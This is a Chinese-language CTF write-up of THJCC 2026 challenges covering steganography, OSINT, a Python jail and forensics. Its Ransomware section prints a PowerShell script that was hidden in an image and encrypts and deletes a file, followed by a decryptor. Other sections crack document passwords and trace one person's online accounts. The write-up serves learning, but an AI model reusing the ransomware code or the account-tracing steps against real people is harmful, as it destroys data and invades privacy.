[THJCC_IMAGE.png](https://file.pg72.tw/share/WdHssNXn)
:::

#### 解題心得：
這題我那個時候沒有看，啊要不然我應該可以做得出來（？
這題也是簡單來說有檔案先下載檔案，那就直接下載圖片啦！然後他的題目敘述要我們檢查Hex，那就直接打開HxD來檢查吧！

看起來是一個很標準的PNG格式標頭，那我們直接看看裡面有沒有藏zip吧！（我失誤在這裡沒有檢查pk, 要不然我也會解啊啊啊啊ㄚ==）

看到了，裡面還藏著一個zip，而且壓縮包有一個資料夾叫`cute`，資料夾裡面有兩個檔案分別是`F.png`和`F3.png`，廢話不多說就直接改副檔名後解壓縮來查看吧！


這題其實真的很送分題，就只是我懶得去檢查pk導致沒拿到分數，有點後悔了qwq


#### Flag:
```THJCC{fRierEN-SO_cUTe:)}```

### [Provisioning in Progress](https://ctf2026.thjcc.org/challenges#Provisioning%20in%20Progress-47) (100)

#### 題目：
AS201943 has recently begun deploying its production infrastructure.

According to the NOC provisioning policy, Operational status is based on live network deployment. Address assignments alone do not imply production readiness.

Your task is to determine which infrastructure is actually in production and retrieve the NOC authorization token from the public registry.

flag format\:thjcc{auth_token}
> author\:fishbaby1011

#### 解題心得：
這題其實很有趣，他主要考了你調查auth_token的能力（？
反正第一步直接Google查 AS201943是什麼，我們發現他是一個叫自治系統編號的東東，簡單來說就是一個可以自己決定流量可以怎麼走的東東（？  
接下來可以用一個網站來查詢更多詳細ASN內容： https://apps.db.ripe.net/db-web-ui/query

點進網站後搜尋AS201943，我們發現下面有提到一個網站 `https://fishbaby1011.net`，點進去看後發現左下角有個ip被ASSIGNED了，而且他的Netname和上面Active的是相同的，這就是題目所述，所以我們記住這個IP。

我們回到剛剛的網站去查那個IP，然後會發現他有一個Remark是  
`AUTH: v1.fWxhZXJfZXJhX3NleGlmZXJwX2RlY251b25uYV95bG5ve2Njamh0`， 

看到這裡有人就會很開心的歐我們直接送出吧！ `THJCC{v1.fWxhZXJfZXJhX3NleGlmZXJwX2RlY251b25uYV95bG5ve2Njamh0}`......?  
錯了！因為少做個步驟，把他用Base64 解碼。至於我怎麼看出來沒有用Base64解碼的呢...? 問就是經驗👍。  
> [!NOTE]
> 記得`v1.`要刪除，因為Base64不支援`.`，所以那個`v1.`一定要刪除。 

我們解碼後發現他轉換後的文字好像反過來了...?
```txt
fWxhZXJfZXJhX3NleGlmZXJwX2RlY251b25uYV95bG5ve2Njamh0
=> }laer_era_sexiferp_decnuonna_ylno{ccjht
```
但沒事，身為Python精通大師，這點小事難不倒我們的吧\:D
```py
text = "}laer_era_sexiferp_decnuonna_ylno{ccjht"
print(text[::-1])  
```
然後執行一下代碼：
```bash
pg72@PGpenguin72:~/Downloads$ python3 reverse.py
thjcc{only_announced_prefixes_are_real}
```

:spoiler[~其實不得不說這個出題者是真有錢，網路上查到說申請這個要很多錢錢和精力，為了題目然後去搞一個ASN？也有可能是原本需要然後去申請後順便用一個題目來玩吧?反正我不熟不要炎上我\:D~]
#### Flag:
```thjcc{only_announced_prefixes_are_real}```

### [Metro](https://ctf2026.thjcc.org/challenges#Metro-45) (244)

#### 題目：
I took this photo at a MRT station in a certain city/county in Taiwan. Please identify which station it is and which floor it was taken on.

Flag format: THJCC{Station Code-Floor} (Case insensitive)

Example: If the station code for Taipei Metro's Shuanglian Station is R12, and the floor is the 1st floor (using American English numbering), the flag would be THJCC{R12-1F}

> Author: Frank

#### 解題心得：
這題是我最喜歡的一題之一，他需要用到照片推理的知識，那我們就直接來推理吧!  
首先先看圖片有什麼線索，目前已知為台灣的某個捷運站向外拍攝的照片，然後反光可以看到`2月台`，路線顏色疑似是藍色、紫色、紅色的感覺。  
往外的的照片可以清楚看到戶外，故這個捷運一定是高架，那全台灣符合高架捷運共有`淡水信義線`、`新北投支線`、`環狀線`、`小碧潭支線`、`安坑輕軌`、`淡海輕軌`、`桃園機場捷運`、`台中捷運綠線`這幾條捷運。  
然後看一下戶外場景，我們可以畫出以下平面圖，代表他的道路路線和附近場景，以便後續可以對照Google 地圖環境：

透過我畫的這個很醜圖，我確定捷運一定是走東和西，不是從左到右就是由右到左，且這裡荒地很多（因為停車場多），不太可能是在市區。  
接下來有這麼多捷運，還有其他線索嗎？ 我決定再多多查看一下反光：

恩？ 反轉看看，感覺有料喔！

月台符號旁邊有一個白色的標示，那個是桃園機場捷運會有的標示（直達車/普通車）！  
:spoiler[為什麼我會知道呢？ 我認為主要還是經驗法則，就是看多了就知道了（?]

> [!NOTE]
> 圖片攝取自Instagram：[@ultra__g](https://www.instagram.com/ultra__g/)，[原圖鏈結](https://www.instagram.com/p/C1d7_TEy0HQ/)。

那最後統整所有線索來找地點吧！只有一個地方符合：

也就是`A10山鼻站`，從我畫的圖和Google Map衛星圖很像，且周遭也很像，先鎖定看看這站吧！  
來看看這站的街景圖：

恩，街景雖然是7年前拍的，但附近環境還是很像的，那就查查看月台層是幾樓就好了吧！

那答案應該就不言而喻了，3樓的A10山鼻站！
#### Flag:
```THJCC{A10-3F}```

### [哦更愛你了](https://ctf2026.thjcc.org/challenges#%E5%93%A6%E6%9B%B4%E6%84%9B%E4%BD%A0%E4%BA%86-66) (371)

#### 題目：
燒肉好ㄔ([gif src](https://www.dcard.tw/f/funny_video/p/253981120))
> Author: MaZon  

Hint 這是一個一個一個重要提示:  
:spoiler[在這特別的日子裡，送給你們一首非常特別的歌曲，特別的八字給特別的你（忽略標點符號）]

:::Tip[Download Flie]
[challenge.HEIC](https://file.pg72.tw/share/oQZc_iUn)
:::

#### 解題心得：
這題其實超級簡單，但因為我當時的失誤，少檢查一個地方，所以沒有成功解出來啊啊啊啊啊==  
不管反正我一樣講一下要怎麼做，首先先下載這個HEIC檔案，我們來觀察一下：

他其實就是一張圖片，沒啥特別的，那就直接丟HxD（十六進制檢視軟體）吧！

看起來是一個很標準的HEIC標頭，那我們來看看這裡面有沒有藏zip吧:（因為我遇過很多會在圖片裡藏zip的解謎，已經被搞到PTSD了，所以第一個會檢查有沒有 50 4B(PK)標頭 ）

欸嘿，被我猜中了！這個壓縮檔案裡面有一個`flag.txt`，那我們直接改副檔名成`.zip`解壓縮看看裡面有啥！

竟然需要密碼？！完蛋了，我不知道密碼==  
於是當時的我嘗試了暴力破解密碼，但沒有成功（用腳本試）......  
然後當時的我就放棄了:D  
但事實上，如果我當時細心點去看這個詳細資料：

會發現這裡有一個很奇怪的`Date taken: 08/10/3000`，這和提示上寫的“一個一個一個“梗(114514, 19190810)很接近，於是就有一個猜想，密碼會不會是`30000810`?然後我就嘗試了...就對了！！！  
```bash
pg72@PGpenguin72:~/Downloads$ strings flag.txt
THJCC{Y@JUNlKU}
```
哎... 如果當時我願意多看一下就有分了... 破如房==
#### Flag:
```THJCC{Y@JUNlKU}```

### [-YRSK](https://ctf2026.thjcc.org/challenges#YRSK-23) (426)

#### 題目：
Notice RIFF ChunkSize and size limits
Flag format: Case Insensitive, no spaces
> Author: Frank

:::Tip[Download Flie]
[THJCC_YRSK.zip](https://file.pg72.tw/share/ce8Umiki)
:::

#### 解題心得：
好吧這題其實沒有解出來，還在學習中，等學好了再放上來！

#### Flag:
```THJCC{}```

### [baby jail](https://ctf2026.thjcc.org/challenges#baby%20jail-49) (463)

#### 題目：
This is a baby jail. Just do it.
> author\:icecookies1017

:::Tip[Download Flie]
[mapping.py](https://file.pg72.tw/share/E-zyEarC)
:::

:::Tip[Connection]
nc chal.thjcc.org 15514
:::

#### 解題心得：
從題目名稱來看，這應該是一題 Pyjail 題型，需要連線到遠端主機，在受限的 Python 執行環境裡想辦法突破限制，最後通常是讀出例如 flag.txt 之類的檔案來取得 flag。  
那按照慣例，先下載檔案來看一下：
```py
def mapping(k):
mapping = {}
    for i in range(26):
        plain = chr(ord('a') + i)
        mapped_index = (i ^ k) % 26
        mapped = chr(ord('a') + mapped_index)
        mapping[plain] = mapped
    return mapping
```
非常標準的Python 檔案，看起來他好像是一個把字母順序變亂的東東。  
那接下來我們來連線看看會看到什麼：
```bash
pg72@PGpenguin72:~/Downloads$ nc chal.thjcc.org 15514
Welcome to baby Jail. Allowed chars: a-z, 0-9, []().
> A
Invalid chars. Only a-z, 0-9 and []() allowed.
> abcdefghijklmnopqrstuvwxyz1234567890[]()
hgfedcbaponmlkjixwvutsrqfe1234567890[]()
> ^C
pgp72@PGpenguin72:~/Downloads$ nc chal.thjcc.org 15514
Welcome to baby Jail. Allowed chars: a-z, 0-9, []().
> abcdefghijklmnopqrstuvwxyz1234567890[]()
efghabcdmnopijkluvwxqrstcd1234567890[]()
> ^C
```
我們看到了一個叫做Baby Jail 的介面，他只允許輸入`a-z`,`1-9`,`[]`和`()`，
而且他每次輸入的字母都會變動，數字不會。  
那這題可以做什麼呢？ 我先嘗試了Python 的基本指令：
```bash
pg72@PGpenguin72:~/Downloads$ nc chal.thjcc.org 15514
Welcome to baby Jail. Allowed chars: a-z, 0-9, []().
> abcdefghijklmnopqrstuvwxyz1234567890[]()
badcfehgjilknmporqtsvuxwzy1234567890[]()
> print(flag)    
oqjms(ekbh)
> oqkms(ekbh)
prlnt(flag)
> flag[0]
ekbh[0]
> flag(0)
ekbh(0)
> ekbh(0)
flag(0)
> ekbh[0]
T
> 
```
等等？？？ 為什麼會是T？也就是說，我們可以推測他有一個`flag = ["T", ""...]` ，那就簡單了啊，貼一串`ekbh[i]`給他就好了啊！  
於是我就繼續做這件事情：
```bash collapse={2-78}
> ekbh[0]
T
> ekbh[1]
H
> ekbh[2]
J
> ekbh[3]
C
> ekbh[4]
C
> ekbh[5]
{
> ekbh[6]
7
> ekbh[7]
h
> ekbh[8]
3
> ekbh[9]
_
> ekbh[10]
b
> ekbh[11]
4
> ekbh[12]
b
> ekbh[13]
y
> ekbh[14]
_
> ekbh[15]
j
> ekbh[16]
4
> ekbh[17]
1
> ekbh[18]
1
> ekbh[19]
_
> ekbh[20]
1
> ekbh[21]
5
> ekbh[22]
_
> ekbh[23]
v
> ekbh[24]
3
> ekbh[25]
r
> ekbh[26]
y
> ekbh[27]
_
> ekbh[28]
3
> ekbh[29]
4
> ekbh[30]
5
> ekbh[31]
y
> ekbh[32]
_
> ekbh[33]
r
> ekbh[34]
1
> ekbh[35]
9
> ekbh[36]
h
> ekbh[37]
7
> ekbh[38]
?
> ekbh[39]
}
> ekbh[40]
variable protected, sryy
> ^C
```
於是，我們得到了正確的Flag！
#### Flag:
```THJCC{7h3_b4by_j411_15_v3ry_345y_r19h7?}```

### [Lock?](https://ctf2026.thjcc.org/challenges#Lock?-30) (498)

#### 題目：
My friend locked his personal webpage for some reason, but did he really?
[thjcc.tcp.tw](https://thjcc.tcp.tw)
> Author: Elliot_404

Hint:  
:spoiler[Try clicking on anything clickable on the Google login page. By the way, it's an OSINT challenge.]

#### 解題心得：
這題很好玩，但CTF競賽時我沒有調查完，後面看了一下別人的提示我會了！  
首先很簡單，有網址就點網址，點進去那個網址後會發現：

這個是Cloudflare Access 的保護介面，我有玩過，簡單來說就是校驗你登入的帳號是否有被允許。
那我們就簡單的點擊看看Google登入好了，會發現這上面有一個聯絡信箱`418meow@googlegroups.com`：

這個信箱是來自Google網路論壇，我嘗試過加入論壇及向這個電子信箱發送郵件，不過都失敗了...  
我直接查Google，結果沒查到啥，還被誤導了許久...

我以為Github 的User理論上也會顯示在上面，不過並沒有繼續深入，反正如果去查會找到有一個 418meow/418meow的倉庫：
::github{repo="418meow/418meow"}
這個倉庫裡只有一個`Readme.md`文件，共有兩個commit，而上面有一個誘導Flag(會自動導向RickRoll)，於是我就檢查最新Commit的原始檔：
(使用Github api進行查閱)
https://api.github.com/repos/418meow/418meow/commits/8a21c081d00c7ed1fcc5003f23e934d7345644ed
```json collapse={1-3, 10-97}
{
  "sha": "8a21c081d00c7ed1fcc5003f23e934d7345644ed",
  "node_id": "C_kwDORU32HdoAKDhhMjFjMDgxZDAwYzdlZDFmY2M1MDAzZjIzZTkzNGQ3MzQ1NjQ0ZWQ",
  "commit": {
    "author": {
      "name": "m41657557",
      "email": "jaylen0721@tcp.tw",
      "date": "2026-02-20T16:24:46Z"
    },
    "committer": {
      "name": "GitHub",
      "email": "noreply@github.com",
      "date": "2026-02-20T16:24:46Z"
    },
    "message": "Initial commit",
    "tree": {
      "sha": "ed44934aacfc92da34de26f6c7b3e749e1c7ab4a",
      "url": "https://api.github.com/repos/418meow/418meow/git/trees/ed44934aacfc92da34de26f6c7b3e749e1c7ab4a"
    },
    "url": "https://api.github.com/repos/418meow/418meow/git/commits/8a21c081d00c7ed1fcc5003f23e934d7345644ed",
    "comment_count": 0,
    "verification": {
      "verified": true,
      "reason": "valid",
      "signature": "-----BEGIN PGP SIGNATURE-----\n\nwsFcBAABCAAQBQJpmIrOCRC1aQ7uu5UhlAAAAzYQAAt5pYfvt/rGnkcJw1O2dZAN\nnIzDZGharggXxnZSvHNMxwMmLsYG/pKDvuoaDAh81NE4MaT9oxWH6SRY6Rbi6NZw\nk1GlW/Gn4RiFctt2ZGoaxrpvuw61wypQFcUyPOKoQoD5gMV67ZYut8eu7rRB5HGr\nMG1K5qAh0z3DG9DlR8+2KSn6jwwC/9FYWPjHi+Sf8PFA9Kd9ZEcUVqvaeP80Z09I\n2CwcGtSdqXCDR/feW8nWtHEzFXrXqXRU3FKaFumMuudvexd+Fig2ulPjX2pEUy93\nWUOnGVnNsRgEbX6F/DyYD8DH4fvqHCHixS43ndubTH+ElWpOiW1ZzqyQQQZnYr4/\nQ+KfoplNNYl9tGPoCNk/ZutWgQql4CUe2R3SS1QIX14sP4AyLejLrzjaluO5FxRT\n2M1w8fViN6IziVQFpJ9FXgvmx9iQtFX0nDuOcu9ITrhd24MiZLYMuc/HjLyB2Sr8\nrphMkRK4NK/fPdIK5fNT0oSBe/jCPi5k6aeR6jAIsZY2NXqPvEvlBmyZqQZPqW8g\nzu7NpmvfD36Og/1VN+5OG1/AoWUkzNkcR7MVYDqtCWNiJzBvkaQGvalKMyCplpWN\nfjl4JEpHfq+MSRH2HhULDw04wCm74J1MVDRk+24tViYowa4qB7YzugmjiEx049KN\nNKJKVLF3VEafvhAna31v\n=4ELi\n-----END PGP SIGNATURE-----\n",
      "payload": "tree ed44934aacfc92da34de26f6c7b3e749e1c7ab4a\nauthor m41657557 <jaylen0721@tcp.tw> 1771604686 +0800\ncommitter GitHub <noreply@github.com> 1771604686 +0800\n\nInitial commit",
      "verified_at": "2026-02-20T16:24:47Z"
    }
  },
  "url": "https://api.github.com/repos/418meow/418meow/commits/8a21c081d00c7ed1fcc5003f23e934d7345644ed",
  "html_url": "https://github.com/418meow/418meow/commit/8a21c081d00c7ed1fcc5003f23e934d7345644ed",
  "comments_url": "https://api.github.com/repos/418meow/418meow/commits/8a21c081d00c7ed1fcc5003f23e934d7345644ed/comments",
  "author": {
    "login": "418meow",
    "id": 260924461,
    "node_id": "U_kgDOD41kLQ",
    "avatar_url": "https://avatars.githubusercontent.com/u/260924461?v=4",
    "gravatar_id": "",
    "url": "https://api.github.com/users/418meow",
    "html_url": "https://github.com/418meow",
    "followers_url": "https://api.github.com/users/418meow/followers",
    "following_url": "https://api.github.com/users/418meow/following{/other_user}",
    "gists_url": "https://api.github.com/users/418meow/gists{/gist_id}",
    "starred_url": "https://api.github.com/users/418meow/starred{/owner}{/repo}",
    "subscriptions_url": "https://api.github.com/users/418meow/subscriptions",
    "organizations_url": "https://api.github.com/users/418meow/orgs",
    "repos_url": "https://api.github.com/users/418meow/repos",
    "events_url": "https://api.github.com/users/418meow/events{/privacy}",
    "received_events_url": "https://api.github.com/users/418meow/received_events",
    "type": "User",
    "user_view_type": "public",
    "site_admin": false
  },
  "committer": {
    "login": "web-flow",
    "id": 19864447,
    "node_id": "MDQ6VXNlcjE5ODY0NDQ3",
    "avatar_url": "https://avatars.githubusercontent.com/u/19864447?v=4",
    "gravatar_id": "",
    "url": "https://api.github.com/users/web-flow",
    "html_url": "https://github.com/web-flow",
    "followers_url": "https://api.github.com/users/web-flow/followers",
    "following_url": "https://api.github.com/users/web-flow/following{/other_user}",
    "gists_url": "https://api.github.com/users/web-flow/gists{/gist_id}",
    "starred_url": "https://api.github.com/users/web-flow/starred{/owner}{/repo}",
    "subscriptions_url": "https://api.github.com/users/web-flow/subscriptions",
    "organizations_url": "https://api.github.com/users/web-flow/orgs",
    "repos_url": "https://api.github.com/users/web-flow/repos",
    "events_url": "https://api.github.com/users/web-flow/events{/privacy}",
    "received_events_url": "https://api.github.com/users/web-flow/received_events",
    "type": "User",
    "user_view_type": "public",
    "site_admin": false
  },
  "parents": [

  ],
  "stats": {
    "total": 16,
    "additions": 16,
    "deletions": 0
  },
  "files": [
    {
      "sha": "841949c5f99076f0b36451c5839b13554566451d",
      "filename": "README.md",
      "status": "added",
      "additions": 16,
      "deletions": 0,
      "changes": 16,
      "blob_url": "https://github.com/418meow/418meow/blob/8a21c081d00c7ed1fcc5003f23e934d7345644ed/README.md",
      "raw_url": "https://github.com/418meow/418meow/raw/8a21c081d00c7ed1fcc5003f23e934d7345644ed/README.md",
      "contents_url": "https://api.github.com/repos/418meow/418meow/contents/README.md?ref=8a21c081d00c7ed1fcc5003f23e934d7345644ed",
      "patch": "@@ -0,0 +1,16 @@\n+## Hi there 👋\n+\n+<!--\n+**m41657557/m41657557** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.\n+\n+Here are some ideas to get you started:\n+\n+- 🔭 I’m currently working on ...\n+- 🌱 I’m currently learning ...\n+- 👯 I’m looking to collaborate on ...\n+- 🤔 I’m looking for help with ...\n+- 💬 Ask me about ...\n+- 📫 How to reach me: ...\n+- 😄 Pronouns: ...\n+- ⚡ Fun fact: ...\n+-->"
    }
  ]
}

```
我們可以從這裡發現新的線索：`m41657557`和`jaylen0721`  
接下來又是快樂的搜尋時間，直到搜尋到在x平台上叫`jaylen0721`的人：
::link{url="https://x.com/jaylen0721"}

這個帳號唯一的文章是關於Hackmd，這是一個Markdown語法編輯平台，反正你可以在上面創作Markdown文件，那就直接在Hackmd中找到這個人吧！
::link{url="https://hackmd.io/@jaylen0721"}

這個人沒有任何公開文章，而且只有關注一個人欸，來看看他關注的用戶：
::link{url="https://hackmd.io/@wilson2026"}

這個頁面上只有一個鏈結，通往Cloudflare Page： https://blog-wilson.pages.dev/
在這個部落格中有一個Discord Server Link 和這關的網址 thjcc.tcp.tw ，廢話不多說就直接加伺服器吧！
> https://discord.com/invite/bcCbmPrcuA

然後再伺服器中的general頻道可以找到關鍵的一句話：

然後我們去這個網站：
> https://m2k4b3jo8z.pages.dev/

就會看到我們思思念念的Flag了！

這題其實很好玩，可以全網搜尋資料，肉搜一個人的感覺其實還蠻爽的（？  
反正這種環環相扣找線索很有趣，希望未來主辦方可以多出一點這種題目來玩（？

#### Flag:
```THJCC{42vj6Dx}```

## Forensics
### [Ransomware](https://ctf2026.thjcc.org/challenges#Ransomware-6) (100)

#### 題目：
Ransomware?

:::Tip[Download Flie]
[THJCC_Ransomware.zip](https://file.pg72.tw/share/XHAJMpmp)
:::

#### 解題心得：
這題說是一個勒索軟體，反正就來研究看看吧（？
首先先下載他的檔案，看看他裡面有什麼東東：

裡面有1個資料夾，資料夾裡面有4個桌面捷徑`.lnk`、`Uto.jpg`和`flag.txt.lock`，這看起來就是勒索軟體會做的事情，把檔案鎖起來後要你支付金錢才會給你密碼，那我們來研究一下`flag.txt.lock`的HxD看看：

全是亂碼欸～（被加密了當然看不懂啊==），那換看另外一個檔案好了：

另外一個檔案看起來是一個標準的檔案...? 那我們就來看檔案尾部好了：

恩？這怎麼這麼像Powershell的指令？我們把檔案改成`Uto.ps1`，然後丟Vscode 直接分析2進制檔案（省代碼，前面二進制亂碼就忽略）：
```ps1
$InputFile  = Join-Path -Path (Get-Location) -ChildPath 'flag.txt'
$OutputFile = "$InputFile.lock"

if (-not (Test-Path -LiteralPath $InputFile -PathType Leaf)) {
  throw "找不到檔案：$InputFile"
}

$UnixTime = [DateTimeOffset]::UtcNow.ToUnixTimeSeconds()

# key = MD5( UnixTimeSeconds as UTF-8 string ) -> 16 bytes (AES-128)
$md5 = [System.Security.Cryptography.MD5]::Create()
try {
  $keyMaterial = [Text.Encoding]::UTF8.GetBytes([string]$UnixTime)
  $Key = $md5.ComputeHash($keyMaterial)
} finally {
  $md5.Dispose()
}

# AES-CBC PKCS7
$AES = [System.Security.Cryptography.Aes]::Create()
$AES.Mode    = [System.Security.Cryptography.CipherMode]::CBC
$AES.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$AES.Key     = $Key
$AES.GenerateIV()

$in  = [IO.File]::OpenRead($InputFile)
$out = [IO.File]::Create($OutputFile)

try {
  $unixBytes = [BitConverter]::GetBytes([int64]$UnixTime)
  $out.Write($unixBytes, 0, $unixBytes.Length)
  $out.Write($AES.IV, 0, $AES.IV.Length)

  $enc = $AES.CreateEncryptor()
  $crypto = New-Object System.Security.Cryptography.CryptoStream(
    $out, $enc, [System.Security.Cryptography.CryptoStreamMode]::Write
  )
  try {
    $in.CopyTo($crypto)
  } finally {
    $crypto.FlushFinalBlock()
    $crypto.Dispose()
  }
}
finally {
  $in.Dispose()
  $out.Dispose()
  $AES.Dispose()
  [Array]::Clear($Key, 0, $Key.Length)
}

Remove-Item -LiteralPath $InputFile -Force
```
那就開始解讀看看這個代碼，這個代碼他主要先抓當前Unix時間，然後再進行MD5雜湊，最後再進行`AES-128 (CBC 模式) `與`PKCS7 填充`加密，並生成一個初始化向量`IV`。  
接下來程式他將當前的Unix時間存在前8個byte，後面存16byte的IV，最後就是加密的內容。  
執行完上述的東西後，程式會刪除掉flag.txt。

那我們要怎麼還原呢？ 直接寫一個Python檔案來還原就好，啊如果像我一樣能力很差不會寫Python的就直接找AI讓他幫我們完成代碼！:spoiler[（AI還是太好用呢了:D）]
```py
import struct
import hashlib
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

# Read the locked file
with open('flag.txt.lock', 'rb') as f:
    data = f.read()

# 1. Parse the file structure
# Bytes 0-7: Unix Timestamp (Int64, Little Endian)
# Bytes 8-23: AES IV (16 bytes)
# Bytes 24+: Ciphertext
unix_time_bytes = data[:8]
iv = data[8:24]
ciphertext = data[24:]

unix_time = struct.unpack('<q', unix_time_bytes)[0]
print("[*] Extracted Unix Time:", unix_time)

# 2. Reconstruct the AES key: MD5(UTF8(String(UnixTime)))
time_str = str(unix_time).encode('utf-8')
key = hashlib.md5(time_str).digest()
print("[*] Reconstructed Key:", key.hex())
print("[*] Extracted IV:", iv.hex())

# 3. Decrypt AES-CBC PKCS7
try:
    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted_padded = cipher.decrypt(ciphertext)
    decrypted = unpad(decrypted_padded, AES.block_size)
    
    print("\n[!] Decryption Successful! Flag is:")
    print("-" * 40)
    print(decrypted.decode('utf-8', errors='ignore'))
    print("-" * 40)
        
except Exception as e:
    print("[-] Decryption failed:", e)
```
最後執行它，我們就會得到：
```bash
pg72@PGpenguin72:~/Downloads$ python3 Decryption_flag.py
[*] Extracted Unix Time: 1767534906
[*] Reconstructed Key: 04a34d6fbad6d84800f6890b0f82c20a
[*] Extracted IV: 36dd3b94e8062a5feaf3639de2686163

[!] Decryption Successful! Flag is:
----------------------------------------
THJCC{L1nK_R4Ns0mWar3_😭😭😭😭}
----------------------------------------
```

#### Flag:
```THJCC{L1nK_R4Ns0mWar3_😭😭😭😭}```

### [I use arch btw](https://ctf2026.thjcc.org/challenges#I%20use%20arch%20btw-15) (100)

#### 題目：
Can you find the hidden message?
> Author: UmmIt Kin

:::Tip[Download Flie]
[THJCC_I_use_arch_btw.jpg](https://file.pg72.tw/share/UbH4vUCs)
:::

#### 解題心得：
這題其實我解出來了，但我不相信他是答案就沒送出了== 具體怎麼解的就看我解吧！  
首先我們先下載這張圖片來看看：

恩...沒有什麼特別的，那就老樣子打開HxD來看看有沒有50 4B (PK) （也就是確認有沒有zip檔案藏裡面）：

恩，不意外，直接解壓縮看看裡面的`readme.xlsx`吧！  
打開後我發現他需要密碼，可是我又不知道密碼要怎麼辦呢...？  
當然是直接找線上工具爆破密碼啊（或是照官方解答說的提取hash破解，用`office2john`這個工具，不過我並不會用所以有興趣的可以看這個： https://ummit.dev/ctf/thjcc/2026 ）  

然後我使用了這個線上工具：[Password Find](https://www.password-find.com/crack_office_password.htm?js=on)  
這個線上工具幫我生成了一個xlsx檔案（也就是解密後的檔案）：

然後，我看著裡面的Flag...，我以為這個系統會自動把我的一些字元刪除然後要我付費解鎖，我在那裡卡了許久後就放棄了== 沒想到密碼其實就是跟上面說的一樣就是長這樣，我又破防了啊啊啊啊ㄚ

#### Flag:
```THJCC{7h15_15_7h3_m3554g3....._1_u53_4rch_b7w}```

### [TV](https://ctf2026.thjcc.org/challenges#TV-31) (100)

#### 題目：
Amazing sound
> Author: Frank

:::Tip[Download Flie]
[output.flac](https://file.pg72.tw/share/80h6z18l)
:::

#### 解題心得：
這題是一個很酷的題目，超帥，這題檔案是一個音頻，然後題目是TV。我們聽這個音檔發現並不是正常的聲音檔案，那我們應該要怎麼做呢...?  
這時要提到一個技術叫SSTV的技術，反正簡單來說就是將特定頻率振幅的聲音轉成圖片的技術，又稱慢掃描電視，廢話不多說就直接看過程+結果吧！  

<iframe width="100%" height="468" src="https://www.youtube.com/embed/AyGhTHa2ZmA?si=wy83ZcG1sH1UfrNN" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>


#### Flag:
```THJCC{sSTv-is_aMaZINg}```

### [ExBaby Shark Master](https://ctf2026.thjcc.org/challenges#ExBaby%20Shark%20Master-70) (100)

#### 題目：
Just Search
> Author: Frank

:::Tip[Download Flie]
[THJCC_ExBaby_Shark_Master.pcapng](https://file.pg72.tw/share/SdPa9iQ3)
:::

#### 解題心得：
這題還蠻簡單的，就是在一堆數據裡找到需要的東西。  
首先介紹一下`pcapng`這個檔案，他是一個網路抓包工具，也就是你的所有連線紀錄都會被存在這裡，我們可以使用[wireshark](https://www.wireshark.org/)來查看這個檔案：

然後接下來就是要在這裡面茫茫大海裡找到最SUS的紀錄......  
然後們發現這裡面有兩筆上傳紀錄在第166行和275行，這兩筆上傳紀錄幾乎一樣所以我們來看看：
```txt collapse={1-21, 30-32}
0000   b6 28 91 a3 b8 81 7a 00 0e 10 78 22 86 dd 60 04   .(....z...x"..`.
0010   03 ff 01 c4 06 fe 24 02 75 00 04 69 8a 48 b9 41   ......$.u..i.H.A
0020   83 73 65 17 2d 56 26 06 47 00 30 32 00 00 00 00   .se.-V&.G.02....
0030   00 00 ac 43 ab 24 cc 2c 00 50 6a 82 c7 9d 3e 87   ...C.$.,.Pj...>.
0040   12 f5 50 18 00 ff 6d fa 00 00 50 4f 53 54 20 2f   ..P...m...POST /
0050   75 70 6c 6f 61 64 20 48 54 54 50 2f 31 2e 31 0d   upload HTTP/1.1.
0060   0a 48 6f 73 74 3a 20 66 72 6b 2e 74 77 0d 0a 55   .Host: frk.tw..U
0070   73 65 72 2d 41 67 65 6e 74 3a 20 63 75 72 6c 2f   ser-Agent: curl/
0080   38 2e 31 37 2e 30 0d 0a 41 63 63 65 70 74 3a 20   8.17.0..Accept: 
0090   2a 2f 2a 0d 0a 43 6f 6e 74 65 6e 74 2d 4c 65 6e   */*..Content-Len
00a0   67 74 68 3a 20 32 34 32 0d 0a 43 6f 6e 74 65 6e   gth: 242..Conten
00b0   74 2d 54 79 70 65 3a 20 6d 75 6c 74 69 70 61 72   t-Type: multipar
00c0   74 2f 66 6f 72 6d 2d 64 61 74 61 3b 20 62 6f 75   t/form-data; bou
00d0   6e 64 61 72 79 3d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d   ndary=----------
00e0   2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 76 66   --------------vf
00f0   44 36 78 63 66 41 7a 71 38 30 56 4f 6e 69 32 71   D6xcfAzq80VOni2q
0100   6c 5a 44 76 0d 0a 0d 0a 2d 2d 2d 2d 2d 2d 2d 2d   lZDv....--------
0110   2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d   ----------------
0120   2d 2d 76 66 44 36 78 63 66 41 7a 71 38 30 56 4f   --vfD6xcfAzq80VO
0130   6e 69 32 71 6c 5a 44 76 0d 0a 43 6f 6e 74 65 6e   ni2qlZDv..Conten
0140   74 2d 44 69 73 70 6f 73 69 74 69 6f 6e 3a 20 66   t-Disposition: f
0150   6f 72 6d 2d 64 61 74 61 3b 20 6e 61 6d 65 3d 22   orm-data; name="
0160   64 61 74 61 22 3b 20 66 69 6c 65 6e 61 6d 65 3d   data"; filename=
0170   22 65 78 62 61 62 79 2d 73 68 61 72 6b 2d 6d 61   "exbaby-shark-ma
0180   73 74 65 72 2e 74 78 74 22 0d 0a 43 6f 6e 74 65   ster.txt"..Conte
0190   6e 74 2d 54 79 70 65 3a 20 74 65 78 74 2f 70 6c   nt-Type: text/pl
01a0   61 69 6e 0d 0a 0d 0a 54 48 4a 43 43 7b 31 74 27   ain....THJCC{1t'
01b0   53 2d 33 41 73 79 2a 2d 72 31 67 68 37 3f 3f 3f   S-3Asy*-r1gh7???
01c0   3f 3f 7d 0a 0d 0a 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d   ??}...----------
01d0   2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d 2d   ----------------
01e0   76 66 44 36 78 63 66 41 7a 71 38 30 56 4f 6e 69   vfD6xcfAzq80VOni
01f0   32 71 6c 5a 44 76 2d 2d 0d 0a                     2qlZDv--..
```
欸嘿，我們就找到Flag了！那就直接填答案吧！
#### Flag:
```THJCC{1t'S-3Asy*-r1gh7?????}```

